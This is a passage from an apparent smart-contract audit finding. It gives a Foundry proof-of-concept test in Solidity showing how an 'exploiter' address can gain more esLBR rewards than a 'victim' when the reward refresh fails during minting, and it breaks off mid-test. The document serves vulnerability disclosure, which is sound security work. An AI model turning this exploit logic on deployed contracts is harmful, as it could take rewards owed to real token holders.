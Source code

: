 The following is the coded PoC using [Foundry](https://github.com/foundry-rs/foundry).

*Note: This PoC creates a mock reward contract. It has the same logic as the real one, but with added setter functions that serve only to simplify the test flow.*

```solidity
File: test/esLBR.t.sol

// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "forge-std/Test.sol";
import "contract/lybra/configuration/LybraConfigurator.sol";
import "contract/lybra/governance/GovernanceTimelock.sol";
import {esLBR} from "contract/lybra/token/esLBR.sol";

contract C4esLBRTest is Test {
    Configurator configurator;
    GovernanceTimelock govTimelock;
    mockProtocolRewardsPool rewardsPool;
    esLBR eslbr;

    address exploiter = address(0xfff);
    address victim = address(0xeee);

    function setUp() public {
        govTimelock = new GovernanceTimelock(0, new address[](0), new address[](0), address(0));
        configurator = new Configurator(address(govTimelock), address(0));
        rewardsPool = new mockProtocolRewardsPool();
        eslbr = new esLBR(address(configurator));

        rewardsPool.setTokenAddress(address(eslbr));

        address[] memory minter = new address[](1);
        minter[0] = address(this);
        bool[] memory minterBool = new bool[](1);
        minterBool[0] = true;
        configurator.setTokenMiner(minter, minterBool); // set this contract as the esLBR minter
        configurator.setProtocolRewardsPool(address(rewardsPool));

        eslbr.mint(exploiter, 100 ether);
        eslbr.mint(victim, 100 ether);
        rewardsPool.setRewardPerTokenStored(1);
    }

    function testMintFailRefreshReward() public {
        assertEq(eslbr.balanceOf(exploiter), eslbr.balanceOf(victim), "Should start with equal esLBR balance");
        assertEq(rewardsPool.earned(exploiter), rewardsPool.earned(victim), "Should start with equal rewards accrued");

        rewardsPool.setRewardPerTokenStored(2);

        eslbr.mint(victim, 100 ether); // refreshReward should pass
        rewardsPool.forceRevert(true); // Assume something occur, causing the refreshReward become unavailable
        eslbr.mint(exploiter, 100 ether);

        // Record earning rewards to latest rate
        rewardsPool.forceRevert(false);
        rewardsPool.refreshReward(exploiter);
        rewardsPool.refreshReward(victim);

```